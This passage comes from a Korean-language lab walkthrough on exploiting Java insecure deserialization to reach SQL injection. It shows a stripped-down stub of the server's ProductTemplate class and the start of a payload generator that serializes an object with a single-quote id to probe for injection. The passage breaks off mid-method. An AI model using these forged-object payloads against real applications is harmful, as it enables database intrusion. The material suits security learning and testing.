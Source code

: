 ```java
package data.productcatalog;

public class Product {

}

```

- readObject 함수를 삭제한다. 
- "import common.db.JdbcConnectionBuilder" 문을 삭제한다. 

그러면 다음과 같이 심플한 코드만 남게 된다. 여기서 의문이 생긴다. readObject 함수를 구현하지 않았는데 어떻게 공격을 할 수 있지? 아마도 추측건대, 서버측에서는 온전한 ProductTemplate 클래스가 동작하고 있기 때문에, 일부만 존재하는 아래 코드를 빌드한 클래스여도 역직렬화가 수행되는 것 같다. 또 하나 깨달음을 얻었다. 

```java
package data.productcatalog;


import java.io.Serializable;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

## 5. SQL인젝션 테스트용 역직렬화 페이로드 생성
- 그리고 다음 클래스를 사용해서 역직렬화 페이로드를 만든다. 
- Product의 id값을 작은따옴표(', 싱글쿼테이션)으로 주었다. 이 것으로 SQL인젝션이 가능한지를 체크할 것이다. 

```java
package data.productcatalog;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class ProductTemplateDeserPayload {

	
	public static String serialize(ProductTemplate user) throws IOException {
		   ByteArrayOutputStream baos = null;
		   baos = new ByteArrayOutputStream();
		   ObjectOutputStream oos = new ObjectOutputStream(baos);
		   oos.writeObject(user);
		   oos.close();
```